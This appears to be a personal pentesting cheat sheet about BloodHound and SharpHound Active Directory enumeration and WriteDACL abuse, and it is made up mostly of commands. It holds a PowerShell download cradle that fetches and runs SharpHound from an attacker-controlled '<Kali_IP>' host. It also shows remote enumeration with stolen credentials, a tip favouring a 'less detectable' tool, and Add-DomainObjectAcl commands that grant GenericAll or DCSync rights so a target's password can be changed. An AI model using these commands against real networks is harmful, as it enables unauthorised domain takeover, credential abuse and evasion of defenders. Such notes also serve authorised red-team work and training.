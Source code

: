 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Bloodhound
---
```



<span style="font-size: 35px; color:red"><b>BloodHound</b></span>
&nbsp;
Start BloodHound

```bash
sudo neo4j console
```

```bash
./bloodhound --no-sandbox
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>SharpHound</b></span>
Pull AD Configuration from pwned machine and load it into BloodHound
Copy _sharphound.exe_ in the pwned machine and run it from there
```shell
./SharpHound.exe -c all
```
It will create a .zip file that you can drag and drop into bloodhound

OR
```powershell
IEX(New-Object Net.WebClient).downloadString('http://<Kali_IP>/SharpHound.ps1')  
Invoke-BloodHound -CollectAll
```

Look for users that you pwned and use the suggestion box for 'shortest path from owned principles'
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>BloodHound-Python</b></span>
If you have working credentials but no shell, you can use bloodhound-python from remote like so:
```shell
bloodhound-python -u <user> -p <password> -ns <IP> -d <DOMAIN> -c all
```
<span style="color:red">Give a try to rusthound, maybe it's faster and less detectable!</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Abusing WriteDACL access right</b></span>
After Get-ObjectAcl (above), check for <span style="color:red">ActiveDirectoryRights : WriteDacl</span>.
If you find any, that right allows us to add new access rights like GenericAll:
```powershell
Add-DomainObjectAcl -TargetIdentity <CN_NAME> -PrincipalIdentity <CURRENT_USER> -Rights All
```
You can use the same function to apply additional access rights such as GenericWrite or DCSync if the targeted object is the domain object.
Dump the DACL again to verify that GenericAll was applied:
```
Get-ObjectAcl -Identity <CN> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
And check the <span style="color:red">ActiveDirectoryRights: GenericAll</span> is there.
You can now change the CN password.

